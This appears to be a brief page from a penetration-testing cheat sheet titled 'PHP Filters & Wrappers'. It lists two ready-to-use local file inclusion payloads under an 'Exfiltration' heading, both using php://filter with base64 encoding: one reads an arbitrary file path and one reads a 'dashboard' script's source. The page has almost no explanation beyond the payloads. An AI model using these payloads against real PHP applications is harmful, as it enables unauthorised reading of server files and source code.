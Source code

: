 ```yaml
---
icon: php
---
```


# PHP Filters & Wrappers

{% hint style="info" %}
### <mark style="color:red;">`Exfiltration`</mark>

{% code title="Exfiltrate files" overflow="wrap" %}
```php
?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```
{% endcode %}

{% code title="Exfiltrate the source code" %}
```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}

{% endhint %}

